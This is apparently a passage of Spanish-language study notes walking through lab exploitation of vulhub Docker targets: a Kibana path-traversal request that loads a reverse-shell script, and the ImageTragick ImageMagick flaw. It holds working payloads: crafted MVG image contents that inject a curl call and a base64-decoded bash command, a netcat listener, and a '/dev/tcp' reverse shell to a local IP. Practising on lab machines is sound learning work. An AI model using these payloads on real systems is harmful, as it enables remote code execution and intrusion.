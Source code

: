 		})();

Con este archivo loque hacemos es que vamos a crear una ReverShell por un puerto y nuestra IP (172.17.0.1) pero seria la del **docker0**, despues solo nos pondriamos en escucha por Netcat en el puerto 443
❯ **ifconfig docker0** Miramos la IP de la interface docker0

❯ **curl  -s -X GET "\http://localhost:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../tmp/reverse.js"**
❯ **nc -nlvp 443** Para ponernos en escucha por Netcat en espera de la revershell para Linux


****

Desplegaremos otra maquina llamada **ImageMagick** con su vulnerabilidad 
-   **Proyecto de Github**: [https://github.com/vulhub/vulhub/tree/master/imagemagick/imagetragick](https://github.com/vulhub/vulhub/tree/master/imagemagick/imagetragick)

Este proyecto se encarga de procesar contenido multimedia 
❯ **svn checkout \https://github.com/vulhub/vulhub/trunk/imagemagick/imagetragick** Para clonar una subcarpeta de Github y en donde dice **/tree/master** quitarlo de la url y colocar **/trunk** y el resto de la url
❯ **docker-compose up -d** Para poder desplegar el contenerdor una vez descargada
❯ **docker port imagetragick_web_1** Miramos el puerto que esta usando para ese servicio en especifico y nos muestra el 8080

Web **localhost:8080** Para poder ver el servicio web de Imagetragick

Podemos usar BurpSuite con otro puerto para poder interceptar la comunicacion y asi en el campo de la extension del archivo a subir, modificarlo y ver que tipo de archivos acepta. Esto se haria con un ataque de fuuerza bruta en el Intruder y con una expresion regular en **Options > Grep-Match** podemos seleccionar **Add** y despues la expresion o el texto que queremos que nos haga match en la respuesta 

Podemos colocar este contenido en el archivo '.jpg' en Burpsuite y poder explotar la vulnerabilidad
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?|curl "172.72.0.1/testingRCE")'
pop graphic-context
```
❯ **python3 -m http.server 80** Nos montamos un servidor http 80


Ahora podemos hacer la Revershell 
❯ **nvim file.gif**
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo tqergqerbash64revershell | base64 -d | bash`"||id " )'
pop graphic-context
```
Despues de echo colocaremos la revershell pero que fue codificada en base 64
❯ **echo -n "/bin/bash -i >& /dev/tcp/172.72.0.1/4646 0>&1" | base64** Nos regresara la Revershell codificada 




